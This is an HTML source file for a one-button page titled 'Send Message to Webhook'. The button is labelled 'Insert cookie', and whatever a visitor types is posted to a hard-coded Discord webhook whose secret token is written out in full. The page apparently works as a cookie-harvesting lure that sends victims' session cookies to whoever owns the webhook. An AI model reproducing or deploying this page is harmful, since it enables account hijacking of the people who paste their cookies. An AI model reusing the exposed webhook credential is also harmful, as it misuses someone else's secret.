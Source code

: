 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Send Message to Webhook</title>
    <style>
        body, html {
            height: 100%;
            margin: 0;
            display: flex;
            align-items: center;
            justify-content: center;
            background-color: #f0f0f0;
        }
        button {
            background-color: #007bff;
            color: white;
            padding: 10px 20px;
            border: none;
            border-radius: 5px;
            cursor: pointer;
            font-size: 16px;
        }
        button:hover {
            background-color: #0056b3;
        }
    </style>
</head>
<body>
    <button id="sendButton">>Insert cookie<</button>

    <script>
        document.getElementById('sendButton').addEventListener('click', function() {
            const message = prompt("Enter your message:");
            if (message) {
                const webhookURL = 'https://discord.com/api/webhooks/1269679867847508030/3WAIbXRMERBw2BYTEZJ2PXrqezjWTLxbd2FGzIM9nWI99hPejEll89jTDN44eKt-Lfy3';
                const payload = {
                    content: message
                };

                fetch(webhookURL, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify(payload)
                })
                .then(response => {
                    if (response.ok) {
                        alert('Message sent successfully!');
                    } else {
                        alert('Failed to send message.');
                    }
                })
                .catch(error => {
                    console.error('Error:', error);
                    alert('An error occurred while sending the message.');
                });
            }
        });
    </script>
</body>
</html>

